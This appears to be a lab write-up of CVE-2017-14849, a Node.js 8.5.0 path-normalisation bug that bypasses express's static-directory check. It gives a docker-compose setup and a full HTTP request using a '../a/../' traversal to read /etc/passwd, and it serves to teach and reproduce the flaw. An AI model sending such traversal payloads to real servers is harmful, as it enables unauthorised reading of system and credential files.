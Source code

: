 # Node.js Directory Traversal Vulnerability (CVE-2017-14849)

## Vulnerability Principle

Reference documentation:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

The reason is that when Node.js 8.5.0 performs a `normalize` operation on the directory, a logic error occurs, causing the upper layer to jump (eg `../../../../../../etc/ Passwd`), add `foo/../` (such as `../../../foo/../../../../etc/passwd`) in the middle position, you can make `normalize` returns `/etc/passwd`, but the correct result should be `../../../../../../etc/passwd`.

Web frameworks such as express usually provide the functionality of a static file server, which relies on the `normalize` function. For example, express uses the `normalize` function when determining whether the path is outside the scope of the static directory. The above BUG causes the `normalize` function to return an error result, which bypasses the check and causes arbitrary file read vulnerabilities.

Of course, the 'normalize` BUG can affect only the express, and it needs to be further explored. However, because this bug was introduced in node 8.5.0, it was fixed in 8.6, so the scope of influence is limited.

## Vulnerability recurrence

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

Visit `http://your-ip:3000/` to see a web page with the file `/static/main.js` referenced, indicating that it has a static file server.

Send the following packet to read passwd:

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)